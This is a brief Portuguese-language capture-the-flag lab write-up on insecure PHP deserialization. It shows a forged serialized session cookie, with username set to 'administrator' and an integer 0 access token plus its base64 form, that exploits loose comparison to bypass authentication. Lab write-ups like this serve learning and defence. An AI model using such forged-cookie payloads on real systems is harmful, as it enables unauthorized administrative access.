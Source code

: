 #ctf 

Ao logar com o usuário `wiener:peter` um base64 de sessão é salvo, que contém um objeto PHP serializado:

```PHP
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"pdj2fn6keaytzgd1pwg8qr3yyz51y6rd";}
```

Neste lab para validar se o usuário está autenticado e esta autorizado a entrar nas páginas que precisa de autorização, provavelmente é feita a seguinte verificação:

```PHP
$user = unserialize($_COOKIE)
if ($user['access_token'] == $access_token) { 
// ok 
}
```

Para burlar essa comparação basta que o valor de `$user['access_token']` seja um inteiro 0. Modificando o objeto com ajuda do **Hackvertor** (extensão do burp)

```PHP
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}

# Em base64 Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9
```

GG